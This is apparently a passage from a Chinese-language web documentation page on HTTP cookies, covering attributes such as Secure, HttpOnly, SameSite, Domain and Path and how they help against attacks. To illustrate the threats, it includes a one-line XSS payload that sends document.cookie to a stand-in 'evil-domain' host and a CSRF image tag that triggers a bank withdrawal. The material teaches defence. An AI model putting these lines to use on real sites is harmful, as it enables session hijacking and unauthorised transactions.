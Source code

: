 ```text
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

#### 限制访问 Cookie

有两种方法可以确保 Cookie 被安全发送，并且不会被意外的参与者或脚本访问：Secure 属性和 HttpOnly 属性。

标记为 Secure 的 Cookie 只应通过被 HTTPS 协议加密过的请求发送给服务端，因此可以预防 man-in-the-middle 攻击者的攻击。

JavaScript Document.cookie API 无法访问带有 HttpOnly 属性的 cookie；此类 Cookie 仅作用于服务器

#### Cookie 的作用域

Domain 和 Path 标识定义了 Cookie 的作用域：即允许 Cookie 应该发送给哪些 URL。

##### Domain

Domain 指定了哪些主机可以接受 Cookie。如果不指定，默认为 origin，不包含子域名。如果指定了 Domain，则一般包含子域名。

##### Path

Path 标识指定了主机下的哪些路径可以接受 Cookie（该 URL 路径必须存在于请求 URL 中）。以字符 %x2F ("/") 作为路径分隔符，子路径也会被匹配。

##### SameSite attribute

- None。浏览器会在同站请求、跨站请求下继续发送 cookies，不区分大小写。

- Strict。浏览器将只在访问相同站点时发送 cookie。（在原有 Cookies 的限制条件上的加强，如上文 “Cookie 的作用域” 所述）

- Lax。与 Strict 类似，但用户从外部站点导航至 URL 时（例如通过链接）除外。 在新版本浏览器中，为默认选项，Same-site cookies 将会为一些跨站子请求保留，如图片加载或者 frames 的调用，但只有当用户从外部站点导航到 URL 时才会发送。如 link 链接

### Cookie 安全策略

缓解涉及 Cookie 的攻击的方法：

- 使用 HttpOnly 属性可防止通过 JavaScript 访问 cookie 值。

- 用于敏感信息（例如指示身份验证）的 Cookie 的生存期应较短，并且 SameSite 属性设置为 Strict 或 Lax。（请参见上方的 SameSite Cookie。）在支持 SameSite 的浏览器中，这样做的作用是确保不与跨域请求一起发送身份验证 cookie，因此，这种请求实际上不会向应用服务器进行身份验证。

#### 会话劫持和 XSS

在 Web 应用中，Cookie 常用来标记用户或授权会话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 XSS (en-US) 攻击。

```js
new Image().src =
  'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie
```

HttpOnly 类型的 Cookie 用于阻止了 JavaScript 对其的访问性而能在一定程度上缓解此类攻击。

#### 跨站请求伪造（CSRF）

比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：

```html
<img
  src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory"
/>
```
